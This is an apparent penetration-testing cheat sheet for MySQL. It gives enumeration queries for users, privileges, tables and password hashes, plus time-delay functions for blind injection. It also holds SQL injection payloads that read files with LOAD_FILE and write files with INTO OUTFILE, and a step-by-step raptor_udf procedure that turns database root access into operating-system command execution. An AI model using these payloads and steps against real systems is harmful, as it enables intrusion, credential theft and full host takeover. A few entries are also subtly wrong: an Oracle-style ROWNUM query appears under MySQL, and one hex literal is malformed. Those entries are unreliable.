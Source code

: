 # MySQL

## Database commands

### Comments

```
SELECT 1; #comment
SELECT /*comment*/1;
```

### Version

```
SELECT @@version
```

### Users

```
SELECT user();
SELECT system_user();
SELECT user FROM mysql.user; -- priv
CREATE USER <name> IDENTIFIED BY '<pass>'; 
DROP USER <name>; 
GRANT ALL PRIVILEGES ON *.* TO <name>@'%';
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'SUPER';
SELECT host, user FROM mysql.user WHERE Super_priv = 'Y';
```

### Privileges

```
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges;
SELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user;
SELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges
SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges;
```

### Database info

```
SELECT database()
SELECT schema_name FROM information_schema.schemata; -- for MySQL >= v5.0
SELECT distinct(db) FROM mysql.db;
SELECT @@datadir;
```

### List tables

```
SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema';
```

### List columns

```
SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema';
```

### Filter table by column name

```
SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘’;
```

### Access nth row

```
SELECT username FROM (SELECT ROWNUM r, username FROM all_users ORDER BY username) WHERE r=<nth>;
```

### String operations

```
SELECT substr('<string>', <start>, <end>); # returns c
SELECT char(65); # returns A
SELECT ascii('A'); # returns 65
SELECT 0×414243; # returns ABC
Casting	SELECT cast('1' AS unsigned integer);
SELECT cast('123' AS char);
SELECT CONCAT('A','B','C');
```

### Conditional execution

```
SELECT if(1=1,'foo','bar');
SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END;	
```

### Time delay

```
SELECT BENCHMARK(1000000,MD5('A'));
SELECT SLEEP(<seconds>); # >= 5.0.12
```

### Hostname

```
SELECT @@hostname;
```

## Passwords

```
SELECT host, user, password FROM mysql.user; --priv
```

**Format:** SQL

## Vulnerabilities

### Arbitrary file access

```
…' UNION ALL SELECT LOAD_FILE('<readable file>');    #SQLi
```

### Arbitrary file write

```
SELECT * FROM mytable INTO <name> '<path to name>';
UNION SELECT ("<payload>") INTO OUTFILE '<path> '  -- -'
```

### Local code execution (raptor\_udf)

Useful if the database is run with root privileges and you know the credentials. Get payload from [https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518) compile and transfer it to target machine.

1. Login with root credentials `mysql -u root -p <pass>`
2. Find plugin directory `select @@plugin_dir;`
3. Load payload in memory`use mysql;create table foo(line blob);insert into foo values(load_file('<path to payload>'));`
4. Write payload in plugin folder `select * from foo into dumpfile '<plugin folder>/raptor_udf2.so';`
5. Create a function to invoke the payload `create function do_system returns integer soname 'raptor_udf2.so';`
6. Execute commands as root `select do_system("<bash command>");`

